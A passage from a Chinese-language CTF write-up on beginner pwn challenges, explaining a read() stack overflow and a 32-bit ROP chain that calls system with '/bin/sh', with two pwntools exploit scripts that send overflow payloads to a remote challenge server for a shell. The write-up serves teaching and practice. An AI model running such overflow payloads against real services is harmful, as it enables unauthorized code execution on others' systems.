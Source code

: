 直接进入vulnerable_function()  
![2020-06-05-21-49-50](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-21-49-50.png)  
由于read函数所能读入的最大字节要大于buf与栈底的距离，所以存在栈溢出漏洞  

**解题脚本:**
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
io = remote('220.249.52.133','36544')
io.recvuntil('World\n')

payload = 'A'*0x80+'A'*0x08+p64(0x400596)
io.sendline(payload)
io.interactive()
```

## 0x06 level2
> 题目描述: 菜鸡请教大神如何获得flag，大神告诉他‘使用`面向返回的编程`(ROP)就可以了’

查看保护机制  
![2020-06-05-22-34-00](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-22-34-00.png)  

拖入IDA查看反汇编代码  
![2020-06-05-22-42-59](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-22-42-59.png)  
与`level0`同样的溢出漏洞，只不过在程序里找不到现成的可以获取shell的函数了，所以需要将程序中的字符串当做`system`的参数传入  

在IDA中使用`shift+F12`可以查看程序中的所有字符串及其位置  
![2020-06-05-22-46-27](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-22-46-27.png)  
看到有`/bin/sh`字符串，地址为`0x0804A024` 

溢出原理图  
![2020-06-05-23-01-54](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-23-01-54.png)

**解题脚本:**
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
io = remote('220.249.52.133','31250')
io.recvuntil('Input:\n')
payload = 'A'*0x88+'A'*0x04+p32(0x08048320)+'A'*0x4+p32(0x0804A024)
# 调用一个新的函数时，会将esp的值赋值到ebp上去，所以不用管ebp赋值到了一个无效地址，依然可以恢复正常工作
io.sendline(payload)
io.interactive()
```

## 0x07 guess_num
> 菜鸡在玩一个猜数字的游戏，但他无论如何都银不了，你能帮助他么
